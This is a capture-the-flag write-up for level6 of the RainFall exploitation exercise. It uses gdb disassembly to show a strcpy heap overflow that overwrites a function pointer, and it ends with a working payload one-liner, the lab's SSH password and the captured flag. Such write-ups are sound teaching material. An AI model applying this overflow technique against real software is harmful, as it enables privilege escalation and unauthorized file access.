 login as the user `level6`

```shell
 ssh -p 4242 level6@10.13.100.239
level6@10.13.100.239's password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

a `SUID` exactable file is locates in the home directory

```shell
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6  f
Nope
```

let's inspect the program using `gdb`

```gdb
(gdb) info functions
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:       "/bin/cat /home/user/level7/.pass"
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
(gdb) x/s 0x80485d1
0x80485d1:       "Nope"
```

looks like the program allocates 2 times, the first one is a char array of size `64` and the second is of a function pointer that takes no arguments are returns a `int`.

then the program a singes the the fucntion pointer the address of the function `m`, `m` prints the message `Nope` in stdout then returns.

the program then copies the first cli argument to the allocated array using `strcpy`.

we can exploit `strcpy` to change the value of the function pointer to the address of  the function `n`

the `n` function calls `system` with the argument `"/bin/cat /home/user/level7/.pass"` then returns.


```gdb
level6@RainFall:~$ gdb -q ./level6
(gdb) b* 0x08048491              #break after first allocation
Breakpoint 1 at 0x8048491
(gdb) b* 0x080484a1              #break after second allocation
Breakpoint 2 at 0x80484a1
(gdb) run
Starting program: /home/user/level6/level6

Breakpoint 1, 0x08048491 in main ()
(gdb) x/wx $eax
0x804a008:      0x00000000       # first allocation address
(gdb) c
Continuing.

Breakpoint 2, 0x080484a1 in main ()
(gdb) x/wx $eax
0x804a050:      0x00000000       # second allocation address
```

the address of the function pointer is at `0x804a050` if we can update it to the address of `n` we can solve the challenge.

```shell
level6@RainFall:~$ ./level6 `python -c "print 'A' * (0x804a050 - 0x804a008) + '\x54\x84\x04\x08' "`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

